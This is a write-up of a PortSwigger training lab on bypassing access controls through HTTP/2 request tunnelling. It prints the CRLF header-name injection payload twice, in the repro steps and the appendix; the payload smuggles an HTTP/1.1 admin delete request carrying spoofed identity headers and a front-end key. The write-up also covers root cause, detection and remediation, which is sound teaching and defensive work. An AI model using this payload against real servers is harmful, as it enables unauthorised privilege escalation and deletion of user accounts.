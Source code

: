 
# PS‑011 — Bypassing access controls via HTTP/2 request tunnelling

**Date / Analyst:** 2025-09-30 — Christopher Araque
**Target:** PortSwigger lab (insecure role enforcement)
**Impact:** Privilege escalation → delete arbitrary user (admin‑only action)
**Status:** Solved

## Summary
A front‑end that downgrades HTTP/2 → HTTP/1.1 trusted spoofable headers (e.g., X‑SSL‑*, X‑FRONTEND‑KEY). By injecting a CRLF in an HTTP/2 header name, I tunneled a full HTTP/1.1 request that set these headers and executed an admin‑only endpoint:

    GET /admin/delete?username=carlos.

## Repro (minimal)
- Baseline H2 request in Repeater:

    GET /?search=foo HTTP/2
    Host: <lab-host>.web-security-academy.net
    ...


(Any simple page works; I used the search route.)

- Header‑name injection (CRLF after the header name) to tunnel an H1 request. Paste into the header name field (Burp Inspector):

    foo: bar

    GET /admin/delete?username=carlos HTTP/1.1
    X-SSL-VERIFIED: 1
    X-SSL-CLIENT-CN: administrator
    X-FRONTEND-KEY: 5268042407204950


The front‑end forwards the bytes and the back‑end accepts the spoofed identity and key, treating the request as administrator.


- Success indicator: Response 200 OK and the lab banner “Congratulations, you solved the lab!”. (See screenshot.)





## Evidence
- Screenshot: [ps-011-screenshot.png](../../evidence/ps-access/ps-011-screenshot.png)
- Request/response: [ps-011-request.txt](../../evidence/ps-access/ps-011-request.txt)

## Root cause
- Unsafe H2→H1 translation. The proxy shipped raw header bytes downstream without normalizing header names → CRLF in header name allowed request tunnelling.

- Trusting front‑end injected identity headers. Back‑end honored X‑SSL‑VERIFIED, X‑SSL‑CLIENT‑CN, and a discoverable X‑FRONTEND‑KEY for authZ decisions—client‑controlled in this path.


## Impact

- Full privilege escalation to any route gated by those headers (admin deletion, account management, etc.). In the lab: delete carlos successfully.

## Detection tips

- Flag H2 streams with header names containing \r\n.

- Alert on requests where identity/role is derived from X‑SSL‑*, X‑Forwarded‑User, X‑Role, etc., without a cryptographic binding.

- Compare outer request method/URL vs. inner server‑side logs—mismatches often indicate tunnelling.

## Remediation

- Normalize & validate header names (reject CTLs / CRLF; enforce RFC‑compliant token set).

- Do not trust client‑supplied identity/role headers; use mTLS or a signed token (e.g., JWT with audience/issuer checks) between tiers.

- H2 translators: use libraries that never forward raw header bytes; strictly re‑encode canonicalized headers.

- Length handling hardening: unify message framing; add anomaly rules for multi‑request payloads and H1 lines inside H2.

## Appendix: raw PoC (from lab run)

- Outer (H2) request in Repeater with the injected header name; note the tunneled H1 request and spoofed headers:

    GET /?search=foo HTTP/2
    Host: <lab-host>.web-security-academy.net
    ...
# Injected header NAME (Burp Inspector):
    foo: bar

    GET /admin/delete?username=carlos HTTP/1.1
    X-SSL-VERIFIED: 1
    X-SSL-CLIENT-CN: administrator
    X-FRONTEND-KEY: 5268042407204950


- Response: HTTP/2 200 OK (lab solved).
